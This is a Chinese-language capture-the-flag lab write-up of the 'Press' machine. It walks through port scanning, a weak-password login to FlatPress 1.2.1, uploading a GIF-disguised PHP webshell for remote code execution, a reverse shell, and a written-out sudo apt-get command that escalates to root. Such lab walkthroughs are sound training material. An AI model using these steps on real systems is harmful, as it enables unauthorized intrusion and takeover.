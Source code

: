 ```yaml
---
description: Easy - Linux / FlatPress version 1.2.1 / 文件上传+RCE / NOPASSWD提权
---
```


# ✔️ Press

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到3个开放端口：22 / 80 / 8089

```bash
nmap -sC -sV -p- -oA press 192.168.102.29 --open
```

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，没什么收获：

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

* 枚举80端口上的隐藏文件/目录，依次查看没什么收获：

```bash
dirsearch -u http://192.168.102.29 -x 404,403,401,302,301
```

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

* 检查8089端口上的内容，尝试弱口令**admin:password**登录成功：

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

* 枚举8089端口上的隐藏文件/目录：

```bash
dirsearch -u http://192.168.102.29:8089 -x 404,403,401,302,301
```

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

* 在8089端口的多处发现正在运行的程序及其版本号：**FlatPress version 1.2.1**

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 查找FlatPress version 1.2.1相关公开已知漏洞，发现了文件上传 + 远程代码执行的漏洞：

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

#### PoC：

* 编写一个一句话木马的PHP文件，在其头部添加`GIF89a;`：

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

* 在目标系统的Uploader处上传该exploit.py脚本：

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

* 然后访问该脚本路径并执行命令，返回了当前账户和权限信息，还能成功返回/etc/passwd中的内容，因此证明了当前目标系统存在文件上传和远程代码执行的漏洞：

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 现在将exploit.py脚本中的一句话木马改为具有完全交互式反弹shell的PHP脚本内容：

<figure><img src="../../.gitbook/assets/16.png" alt=""><figcaption></figcaption></figure>

### Get Shell

* Kali本机做好监听，上传该脚本即可获取到反弹shell：

<figure><img src="../../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举，发现可以不用密码就能执行有root权限的程序：apt-get

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/18.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 在GTFOBins中发现apt-get的可利用Payload进行提权：

```bash
sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

<figure><img src="../../.gitbook/assets/19.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 利用成功后获取到root账户权限：

<figure><img src="../../.gitbook/assets/20 (19).png" alt=""><figcaption></figcaption></figure>

* 获取到proof.txt文件内容：

<figure><img src="../../.gitbook/assets/21 (17).png" alt=""><figcaption></figcaption></figure>
